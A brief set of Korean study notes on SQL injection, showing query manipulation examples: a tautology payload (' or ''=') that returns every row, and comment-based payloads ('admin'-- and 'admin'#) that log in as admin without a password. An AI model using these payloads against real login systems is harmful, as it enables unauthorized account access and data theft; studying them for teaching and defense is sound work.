 # SQL Injection



## 쿼리 조작

---

### (전체 데이터 조회)
select * from table 
where id= '**' or ''='**' and pw='**' or ''='**'

### (특정 사용자 계정으로 로그인)
select * from table 
where id= 'admin'  — and pw='[아무 값]**'**'

select * from table 
where id= 'admin'#' and pw='[아무 값]**'**'

- 주석처리(—는 언어별 상이 할 수 있음)